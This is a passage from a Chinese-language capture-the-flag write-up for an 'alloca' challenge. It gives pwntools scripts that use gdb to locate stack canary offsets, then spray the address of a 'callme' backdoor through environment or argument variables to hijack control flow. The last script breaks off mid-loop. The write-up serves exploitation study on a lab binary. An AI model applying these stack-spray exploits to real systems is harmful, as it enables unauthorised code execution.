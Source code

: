 ```python
    sh.sendline('r')
    sh.sendline(str(i))
    sh.sendline('176')
    sh.recvuntil('(gdb) ')

    sh.sendline('p $ebp')
    canary_pos_byte = sh.recvuntil('(gdb) ').split(b' ')[4][:-6]

    sh.sendline('c')
    sh.recvuntil('(gdb) ')
    sh.sendline('p $ebp')
    ebp_byte = sh.recvuntil('(gdb) ').split(b' ')[4][:-6]

    canary_pos = int(canary_pos_byte, 16) - 0x14
    ebp = int(ebp_byte, 16) - 0x4

    print(hex(canary_pos))
    print(hex(ebp))

    if (canary_pos == ebp):
        results.append(i)
    sh.close()
print(results)
```

## SHELL_pointer

现在的问题就是这个 shell_pointer 在哪？这个 shell 我们已经找到了，就是 `callme` 后门，那么哪块内存里面存着 `callme` 的地址呢？这就需要用到 Spray 的思想，tiny_easy 那道题也是这样。利用环境变量或者参数变量写入大量的 `callme` 地址即可。
 
## 完整 exp
利用环境变量，这个是别人的。他这个需要每次交互才行，不太好。
```python
from pwn import *
callme = p32(0x080485ab)
envs = {str(i): callme*30000 for i in range(10)}

for i in range(0x100):
    try:
        r = process('/home/alloca/alloca', env=envs)
        r.sendline('-82')
        r.sendline('-4718592')
        r.interactive()
    except EOFError:
            continue
```
利用参数变量，这个是我自己写的。我这个就可以直接挂在那里让他跑就完事了。
```python
from pwn import *
_argv = ['./alloca']
callme = p32(0x80485ab) * 0x500
stack_addr = -4718592

for i in range(0x100):
    _argv.append(callme)

for i in range(0x100):
    print(i)
    try:
        p = process(_argv)
        p.recvuntil('- simple right?. let me show you.\n')
        p.sendline('-80')
        p.sendline(str(stack_addr))
```